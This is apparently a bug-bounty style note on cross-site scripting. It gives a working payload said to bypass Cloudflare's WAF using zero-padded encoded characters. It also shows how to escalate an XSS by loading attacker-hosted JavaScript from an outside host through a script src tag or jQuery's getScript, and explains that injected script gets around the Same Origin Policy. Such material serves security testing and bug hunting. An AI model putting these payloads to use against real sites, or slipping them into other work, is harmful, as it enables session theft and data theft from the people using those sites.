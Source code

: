 The payload is: <svg onload=prompt%26%230000000040document.domain)>

It works by adding 8+ superfluous leading zero’s to the start of a decimal (or hex) encoded character, which Cloudflare did not account for in their checks.

These kinds of bypasses pop up every now and then for major WAFs, and many bug bounty hunters have their own ones that they keep secret. Once they’re publicly known, they tend to get patched fairly quickly by WAF vendors.

------------------------------------------------------------------------------------------------------------
(((( This is my favourite resource for more advanced filter bypass examples:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#filter-bypass-and-exotic-payloads )))))
------------------------------------------------------------------------------------------------------------





XSS Escalation Methods ::
-------------------------
------------------------------



You can use your browser console ( tap F12 for see it) to test XSS payloads ( complex payloads)







INCLUDING LONGER PAYLOADS:
-------------------------
If you’re escalating your XSS beyond an alert box, it’s quite likely that you will want to include a much longer script. This can be done by loading an external .js file. There are a couple of ways to do this. The most generic way is simply to provide a src attribute in a script tag:

<script src="http://nw.rs"></script>
The page at http://nw.rs just happens to include some basic JavaScript as shown below, but it could include any length of JavaScript, even thousands of lines.



Another method of loading external JavaScript is using JQuery’s getScript() function:

$.getScript("http://nw.rs",function(){});
Most modern applications will have JQuery at your disposal, so this is a very handy tip if your XSS is in a JavaScript context, rather than a HTML one.

A word of warning: if you are exploiting an XSS on a page that uses HTTPS, you will need to pull the XSS payload from a link that also uses HTTPS, otherwise the browser will refuse to load it with a “Mixed Content” error





BYPASSING THE SOP:
---------------------
Perhaps the greatest thing about finding XSS on an application is that it allows you to completely bypass the Same Origin Policy (SOP). The SOP basically forbids JavaScript from one origin requesting data from another origin unless it is explicitly allowed by a CORS policy. If you find an XSS on the target application, you really don’t need to worry about this, because the JavaScript that you inject will be executed within that application as if it had been hard coded. In other words, the JavaScript that you inject is already coming from the same origin!
